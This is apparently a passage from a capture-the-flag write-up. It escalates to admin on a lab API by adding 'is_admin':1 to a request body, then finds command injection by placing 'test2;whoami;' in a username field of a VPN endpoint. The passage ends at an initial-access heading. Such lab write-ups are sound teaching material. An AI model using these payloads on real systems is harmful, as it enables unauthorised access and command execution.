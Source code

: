 I add `"is_admin":true` to my body:

```json
{
    "status":"danger",
    "message":"Variable is_admin needs to be either 0 or 1."
}
```

I change my body to `{"email":"<registered email>","is_admin":1}`:

```json
{
    "id":29,
    "username":"test2",
    "is_admin":1
}
```

Awesome! Now visiting `/api/v1/admin/auth` returns:

```json
{
    "message":true
}
```

Now requesting to `/api/v1/admin/vpn/generate` returns a new error:

```json
{
    "status":"danger",
    "message":"Invalid content type."
}
```

Now we go through the same process, until we reach this payload:

```json
{
    "username":"test2"
}
```

Now what? We can't really use this VPN file, there's no other endpoints...

I found that inserting a `;` in the username field seems to cause a response change, so perhaps we can cause some command injection.

We can get a reponse doing the following:

```json
{
    "username":"test2;whoami;"
}
```

We get a response of: `www-data`!

## Initial Access & User Flag
